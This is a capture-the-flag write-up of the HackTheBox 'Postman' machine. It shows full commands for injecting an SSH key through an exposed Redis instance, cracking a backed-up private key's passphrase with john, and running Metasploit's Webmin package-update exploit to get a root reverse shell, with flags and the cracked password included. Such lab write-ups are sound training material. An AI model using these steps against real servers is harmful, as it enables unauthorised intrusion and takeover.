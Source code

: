 ```yaml
---
title: HackTheBox Postman 
published: True
---
```



# 0x0 Introduction
My first post on a HTB machine and the second Box I managed to own (the first one is yet to retire so there will also be writeup for that) featuring redis and webmin.  
![image](/assets/images/Postman_htb.png "Postman Logo")


# 0x1 Getting a foothold

As usual we start the box with an nmap scan
```
nmap -sV -sC -oA nmap/nmap 10.10.10.160
```
This revealed a webmin instance on version 1.1910 which has a privilege escalation vulnerability, but we need to be a user first to use that.  
Everything else revealed on this first scan did not seem all that interesting so I went for a second, larger, scan.  
```
nmap -p- -o nmap-all 10.10.10.10.160
```
Once that finished it revealed that redis was running on port 6379. Redis is a NoSQL Database that works with key-value-pairs, and there are multiple exploits known for it, so that makes a good target.  
To work with redis we need to install the redis-tools:
```
sudo apt get install redis-tools
```
I followed a simple exploit (found here: https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) to replace redis's ssh key with our own, first we need to create an ssh-key of our own.  

```
ssh-keygen -t rsa
```

Then wrote the public-key fo a file 

```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > pub.txt
```

Next I imported the key into redis 

```
cat pub.txt | redis-cli -h 10.10.10.160 -x set s-key
```

And then we place that key for the redis-user:

```
mindslave@kalibox:~/hackthebox/Postman/redis$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
```

Now we can ssh into the box as "redis" using our private ssh-key that we generated before.

```
redis@Postman:~$ 
```

# 0x2 Getting the user.txt

First I found out that user "Matt" existed on the system by doing a simple 

```
ls /home
```

Then after enumerating the box for a while (looking for all sorts of interesting files/services/stuff that could lead us further).  
I came across the /opt/backup directory and backups are of course always something to look for. In the backup directory was a file called id_rsa.bak, I copied the key to my host maschine and asked my friend john if he knew something about it. First we had to use the ssh2john.py to convert the ssh-key into a format that john can work with.

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ /usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

```
mindslave@kalibox:~/hackthebox/Postman/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-02-09 07:01) 0.2074g/s 2975Kp/s 2975Kc/s 2975KC/sa6_123..*7¡Vamos!
Session completed
```

Now we have the ssh-key and we know that the password for the key is "computer2008" but this is where this box got a little bit weird. When we tried to connect to the box as matt with the ssh-key and password we get a "connection closed" immediately, which had me confused for a couple of hours. Back on the redis-user, looking at the ssh-config (/etc/ssh/ssh_config and etc/ssh/sshd_config) I found the following line:

```
DenyUsers Matt
```

And honestly, if Matt is not allowed to connect via ssh, why does he even have an ssh-key? And a backup of that key even.  
But well it turned out that Matt is not very good with passwords and reused the key password as his local password, so we could just

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$
```

and then we had access to the user.txt in Matt's home directory


# 0x3 Getting the root.txt

To get the root user we had to go back to the webmin instance that we found earlier. Matt was also registered there and of course he used the same password "computer2008" for that as well. Knowing that we could use the privilege escalation exploit that I mentioned earlier.  
While I generally prefer to do things without Metasploit, sometimes it is just too convenient. So I entered Matts credentials and set the RHOSTS RPORT LHOST and LPORT Parameter and fired.

```
msf5 exploit(linux/http/webmin_packageup_rce) > exploit 

[*] Started reverse TCP handler on 10.10.14.87:9666 
[+] Session cookie: cf236dc0067d4ca9410f89e64b2bb62d
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.87:9666 -> 10.10.10.160:45232) at 2020-02-09 10:17:54 +0100
whoami
root
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

# 0x4 Closing words

This way my second box on HTB (probably the first one I get to post about tho, since it will retire first), and I learned quite a lot from it, especially the whole redis part that had an unnatural place for an .ssh folder to be. Thanks to the Author a great box for new people in the hacking field. 
